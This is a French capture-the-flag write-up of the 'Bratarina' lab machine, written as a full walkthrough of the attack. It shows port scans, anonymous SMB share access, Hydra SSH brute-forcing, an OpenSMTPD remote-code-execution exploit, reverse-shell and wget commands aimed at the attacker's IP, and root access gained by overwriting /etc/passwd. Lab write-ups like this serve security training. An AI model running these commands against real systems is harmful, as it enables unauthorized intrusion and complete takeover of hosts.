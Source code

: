 
# Bratarina

	sudo  masscan  -p1-65535,U:1-65535 192.168.158.71 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.158.71
	nmap -A -p22,25,53,80,445 192.168.158.71
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
    | ssh-hostkey:  
    | 2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)  
    | 256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)  
    |_ 256 d55b795bce48d85746db594fcd455def (ED25519)  
    25/tcp open smtp OpenSMTPD  
    | smtp-commands: bratarina Hello nmap.scanme.org [192.168.45.160], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODE  
    S, SIZE 36700160, DSN, HELP  
    |_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with fu  
    ll details 2.0.0 End of HELP info  
    53/tcp closed domain  
    80/tcp open http nginx 1.14.0 (Ubuntu)  
    |_http-server-header: nginx/1.14.0 (Ubuntu)  
    |_http-title: Page not found - FlaskBB  
    445/tcp open netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)

Scans complémentaires sur le SMB : 
	
	nmap  -sV  -sT  -p445  --script  "vuln and safe" 192.168.158.71 
    enum4linux  -a 192.168.158.71

Beaucoup d'éléments intéressants mais le plus important est que enum4linux a réussi à explorer le partage SMB sans credentials, on voit un partage //192.168.158.71/backups dans l'onglet "Share Enumeration"

On peut donc tenter de s'y connecter en anonyme pour l'explorer :

    smbclient -N //192.168.158.71/backups
    smb: \> ls
    smb: \> get passwd.bak
	
C'est juste un simple fichier /etc/passwd mais je me suis dit qu'il fallait peut-être tenter un bruteforcing sur les quelques noms du fichiers capables de se connecter, j'ai donc lancé Hydra en parallèle des recherches : 

    cat passwd.bak | grep -v nologin
	hydra -l postgres -P /usr/share/wordlists/rockyou.txt 192.168.158.71 ssh
	hydra -l neil -P /usr/share/wordlists/rockyou.txt 192.168.158.71 ssh

Sans succès, mais j'ai trouvé des exploits pour OpenSMTPD dont un de type CVE particulièrement intéressant : https://www.exploit-db.com/exploits/47984

    vim exploit_OpenSMTP.py
    python exploit_OpenSMTP.py 192.168.158.71 25 ls

L'exploit se déroule bien, mais je n'ai pas pu l'utiliser avec un reverse-shell. Aucun shell du site https://www.revshells.com/ n'a fonctionné alors que j'ai essayé sur plusieurs ports différents et dans plusieurs configurations différentes. Je me suis rabattu sur l'option de faire télécharger des fichiers à la cible mais là encore il y a eu beaucoup d'échecs.

Voici quelques exemples de commandes testées : 

	python3 exploit_OpenSMTP.py 192.168.158.71 25 'nc 192.168.45.160 9999 -e /bin/bash'
	python3 exploit_OpenSMTP.py 192.168.158.71 25 'wget 192.168.45.160/id_rsa -O /home/neil/.ssh/id_rsa'
	python3 exploit_OpenSMTP.py 192.168.158.71 25 'wget -O /tmp/nc2 192.168.45.160/nc_linux' ; chmod u+x /tmp/nc2 ; /tmp/nc2 192.168.45.160 9999 -e /bin/bash'
    
D'après mes logs Apache la phase de téléchargement fonctionne à chaque fois, c'est l'exécution de programmes qui semble poser problème. En revanche le trick du SSH semble ne pas fonctionner non plus. Il reste donc l'option de réécrire le fichier /etc/passwd, avec par exemple le fichier trouvé dans le FTP mais légérement modifié pour me créer un compte administrateur.

    openssl passwd -1 mdp123
    echo 'tim:$1$cNCh34ba$5KLgSZbxX0baUnEB66yoZ1:0:0:/root/:/bin/bash' >> passwd.bak
    sudo cp passwd.bak /var/www/html/
    python3 exploit_OpenSMTP.py 192.168.158.71 25 'wget 192.168.45.160/passwd.bak -O /etc/passwd'
    ssh tim@192.168.158.71
    ls /root
    cat /root/proof.txt

Attention, la commande "wget" semble parfois ne pas marcher quand on ajoute "http://" devant l'adresse IP !






